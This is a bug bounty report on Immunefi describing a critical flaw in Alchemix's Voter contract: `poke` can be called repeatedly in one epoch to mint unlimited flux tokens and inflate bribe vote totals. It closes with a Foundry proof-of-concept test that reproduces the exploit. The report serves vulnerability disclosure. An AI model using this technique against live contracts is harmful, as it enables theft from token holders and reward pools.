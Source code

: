 
# Users can vote multiple times in one epoch

Submitted on Sun May 19 2024 23:58:18 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31483

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Theft of unclaimed yield

## Description
## Brief/Intro
Users can mint unlimited flux by calling `poke` multiple times 

## Vulnerability Details
The vote function at voter uses onlyNewEpoch modifier so users can vote only once per epoch and receive flux tokens, however, the `poke` function that applies voting in the last epoch to the current epoch doesn't use this modifier and user can call it multiple times in one epoch and receive unlimited flux 
also, every time `_vote` function is called in `poke`, it resets the last voting and calls deposit at the bribe which inflates total voting at bribe so distributed rewards to bribe would be lost ( total voting used to calculate amount of rewards has been distributed per token ) 

## Impact Details
Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield ) , the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

Loss of distributed rewards at underlying bribes 
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212

        
## Proof of concept
## Proof of Concept
```
function testVoteWithoutLimit() external {

        // create lock token for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);

        // assert user has no unclaimed flux 
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);
        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");


        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        // vote and calling poke multiple times 
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);

        // as we see user has received 6 times more rewards as we called poke multiple times
        uint256 actualFluxClaimed = 6 * token1Flux;
        uint256 unclaimedFlux1End = flux.getUnclaimedFlux(tokenId1);
        assertEq(actualFluxClaimed, unclaimedFlux1End);

    }
```